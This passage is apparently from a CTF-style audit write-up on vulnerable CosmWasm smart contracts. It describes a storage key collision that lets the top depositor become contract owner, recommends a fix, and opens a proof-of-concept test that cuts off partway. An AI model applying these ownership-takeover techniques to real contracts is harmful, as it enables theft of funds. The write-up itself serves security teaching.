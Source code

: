 ```rust
        assert_eq!(result.events[1].attributes[2], attr("result", "Passed"));

        // Verify that USER2 is now the owner of the contract, despite only having 10_000 tokens (8.3%) to vote with
        let config: Config = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::Config {})
            .unwrap();
        assert_eq!(config.owner, USER2.to_string());
    }
```

---

## Challenge 07: *Tyrfing*

### Description

#### Severity: $\textcolor{red}{\textsf{Critical}}$

There is a vunerability in this contract that both `TOP_DEPOSITOR` and `OWNER` use the same key name of `"address"` (key collision), as shown here:
```rust
pub const TOP_DEPOSITOR: Item<Addr> = Item::new("address");

pub const OWNER: Item<Addr> = Item::new("address");
```

This is a big problem, because anytime you read from/write to either of them, you are pointing at the same storage. Writing to one of them will overwrite the other, and vice versa.

In regards to this contract, when the `TOP_DEPOSITOR` is changed via the `ExecuteMsg::Deposit` method, **it will also overwrite the `OWNER` storage entry**, effectively making the top depositor *also* the owner of the contract.

### Recommendation

A simple fix for this would be changing both keys to something more fitting, like this:
```rust
pub const TOP_DEPOSITOR: Item<Addr> = Item::new("top_depositor");

pub const OWNER: Item<Addr> = Item::new("owner");
```

I'd also recommend moving `TOP_DEPOSITOR` to `state.rs` with the rest of the contract's state as well

### Proof of concept

```rust
    #[test]
    fn all_your_base() {
        let (mut app, contract_addr) = proper_instantiate();

        // give "hacker" 1_001 tokens and "grug" 1_000 tokens
        app = mint_tokens(app, "hacker".to_string(), Uint128::from(1_001u128));
        app = mint_tokens(app, "grug".to_string(), Uint128::from(1_000u128));

        // Verify that "admin" is contract owner to start
        let config: crate::msg::ConfigQueryResponse = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::Config {})
            .unwrap();
        assert_eq!(config.owner, Addr::unchecked("admin"));

        // "grug" deposits 1_000 tokens
```